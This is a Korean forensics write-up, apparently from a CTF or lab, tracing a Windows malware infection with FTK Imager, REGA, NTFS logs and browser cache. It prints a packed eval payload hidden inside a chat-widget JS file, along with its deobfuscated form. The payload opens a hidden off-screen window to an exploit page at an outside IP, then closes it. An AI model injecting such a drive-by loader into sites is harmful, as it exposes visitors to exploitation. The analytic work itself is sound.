

FTK Imager에서 REGA에 넘길 5개의 파일을 export하여 REGA에 넣기.


넣고 분석 돌리기


우선 사용자명은 global_001로 추정


먼저, 로컬 사용자 TCP/IP 도구를 사용하여 IP 떄려 맞히면 


운영체제 product도 간단하게 solve


다음 문제는 NTFS Log Tracker를 이용해서 파일 추출 해보려고 하자.


길게 하고 Parsing 하면 뜬다.


해당 파일에서 악성 코드가 실시가 되었지만 최초 악성 코드는 아니라고 한다...


해당 sche.exe 파일에 대한 MAT 기록은 위와 같다.

메모한 생성 시각 직전에 실행되거나 생성된 파일을 아래 경로에서 확인한다.
Windows\Prefetch


실행된 시각은
2017-10-21 오전 5:00:00:25

인터넷 익스플로러를 통해서 접근할 확률이 매우 높아서 download 폴더에 접근하였지만 `.ini` 파일 이외 특정되는 폴더가 없었다.
하여 임시로 인터넷 익스플로로에 브라우저 캐시나 임시 폴더가 저장되는 로컬 위치로 가니, 거의 직접 실행 시각 이후에 기록이 남아 있는 것을 확인했다.


하위 \Temp 경로 내에서 근접 시간에 하나의 파일이 잡히는 것을 확인


근데 저곳이 원본이 올라간 위치의 원본 절대 경로가 아닌가 보다. 그렇다면 유저 쪽에서 뒤져서 다시 찾아보자.


딱 4시 52분 시점 이후로 뭔가 없다.. 3 파일 모두


어우 눈 빠질거 같다 


여기서 ip 공격자 노출되고 , flower.html 단서 얻음


```chatliob304[2].js
(function() {

    "use strict";

    this.__ZERVER_MODULES = this.__ZERVER_MODULES || {}, this.__ZERVER_MODULES["/js/chatlio"] = this.__ZERVER_MODULES["/js/chatlio"] || {}, window._chatlio = window._chatlio || [], ! function() {

        var e = document.getElementById("chatlio-widget-embed");

        if (e && window.ChatlioReact && _chatlio.init) return void _chatlio.init(e, ChatlioReact);

        for (var t = function(t) {

                return function() {

                    _chatlio.push([t].concat(arguments))

                }

            }, n = ["configure", "identify", "track", "show", "hide", "isShown", "isOnline"], r = 0; r < n.length; r++) _chatlio[n[r]] || (_chatlio[n[r]] = t(n[r]));

        var i = document.createElement("script"),

            s = document.getElementsByTagName("script")[0];

        i.id = "chatlio-widget-embed", i.src = "https://w.chatlio.com/w.chatlio-widget.js", i.async = !0, i.setAttribute("data-embed-version", "2.1"), i.setAttribute("data-widget-id", "d0b06dd3-47f2-4213-6131-e1574b040028"), s.parentNode.insertBefore(i, s)

    }()

}).call(this);

eval(function(p, a, c, k, e, d) {

    e = function(c) {

        return (c < a ? '' : e(parseInt(c / a))) + ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))

    };

    if (!''.replace(/^/, String)) {

        while (c--) {

            d[e(c)] = k[c] || e(c)

        }

        k = [function(e) {

            return d[e]

        }];

        e = function() {

            return '\\w+'

        };

        c = 1

    };

    while (c--) {

        if (k[c]) {

            p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])

        }

    }

    return p

}('3 b(){6=h.q(\'r://o.n.p.s/l/t/f.g\',\'k\',\'j=0,i=0,m=0,H=0,E=0,D=7, F=7, G=1, u=1, C=B\',\'\')}3 8(){6.w()}3 e(4){a 2=5 9();a c=2.d()+4;v(x){2=5 9();y(2.d()>c)A}}b();e(z);8();', 44, 44, 'no||now|function|num|new|mw|10000|closeWin|Date|var|openWin|stop|getTime|sleep|flower|html|window|status|toolbar|_blank|jscdn|menubar|17|58|34|open|http|44|js|height|while|close|true|if|10000|return|none|visible|left|resizable|top|width|scrollbars'.split('|'), 0, {}))
```

위 파일이 난도화되어 있고 리다이렉팅함.

```js
function openWin() {
  mw = window.open(
    'http://58.17.34.44/jscdn/js/flower.html',
    '_blank',
    'toolbar=no, status=no, menubar=no, scrollbars=no, resizable=no,' +
    'left=10000, top=10000, width=1, height=1, visible=none',
    ''
  )
}

function closeWin() {
  mw.close()
}

function sleep(num) {
  var now  = new Date();
  var stop = now.getTime() + num;
  while (true) {
    now = new Date();
    if (now.getTime() > stop) return
  }
}

openWin();      // 숨겨진 창으로 익스플로잇 페이지 열기
sleep(10000);   // 10초 대기 (익스플로잇 실행 시간 확보)
closeWin();     // 창 닫아서 흔적 지우기

```


---